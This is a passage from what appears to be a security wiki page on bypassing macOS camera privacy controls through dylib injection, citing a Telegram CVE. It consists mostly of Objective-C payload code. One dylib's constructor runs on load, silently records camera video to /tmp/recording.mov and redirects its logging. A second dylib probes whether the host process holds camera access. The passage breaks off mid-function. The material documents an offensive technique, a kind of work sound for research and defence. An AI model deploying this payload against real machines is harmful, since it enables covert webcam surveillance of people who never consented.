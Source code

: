 ```objectivec
    NSString *outputFilePath = @"/tmp/recording.mov";
    NSURL *outputFileURL = [NSURL fileURLWithPath:outputFilePath];
    [self.movieFileOutput startRecordingToOutputFileURL:outputFileURL recordingDelegate:self];
    NSLog(@"Recording started");
}
- (void)stopRecording {
    [self.movieFileOutput stopRecording];
    [self.captureSession stopRunning];
    NSLog(@"Recording stopped");
}
#pragma mark - AVCaptureFileOutputRecordingDelegate
- (void)captureOutput:(AVCaptureFileOutput *)captureOutput
didFinishRecordingToOutputFileAtURL:(NSURL *)outputFileURL
      fromConnections:(NSArray<AVCaptureConnection *> *)connections
                error:(NSError *)error {
    if (error) {
        NSLog(@"Recording failed: %@", [error localizedDescription]);
    } else {
        NSLog(@"Recording finished successfully. Saved to %@", outputFileURL.path);
    }
}
@end
__attribute__((constructor))
static void myconstructor(int argc, const char **argv) {
    freopen("/tmp/logs.txt", "a", stderr);
    VideoRecorder *videoRecorder = [[VideoRecorder alloc] init];
    [videoRecorder startRecording];
    [NSThread sleepForTimeInterval:3.0];
    [videoRecorder stopRecording];
    [[NSRunLoop currentRunLoop] runUntilDate:[NSDate dateWithTimeIntervalSinceNow:3.0]];
    fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="ObjectiveC - Check" %}
Check if the program has access to the camera.

```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// gcc -framework Foundation -framework AVFoundation -dynamiclib CamTest.m -o CamTest.dylib
// Code from https://vsociety.medium.com/cve-2023-26818-macos-tcc-bypass-with-telegram-using-dylib-injection-part1-768b34efd8c4

@interface CameraAccessChecker : NSObject
+ (BOOL)hasCameraAccess;
@end
@implementation CameraAccessChecker
+ (BOOL)hasCameraAccess {
    AVAuthorizationStatus status = [AVCaptureDevice authorizationStatusForMediaType:AVMediaTypeVideo];
    if (status == AVAuthorizationStatusAuthorized) {
        NSLog(@"[+] Access to camera granted.");
        return YES;
    } else {
        NSLog(@"[-] Access to camera denied.");
        return NO;
    }
}
@end
__attribute__((constructor))
static void telegram(int argc, const char **argv) {
```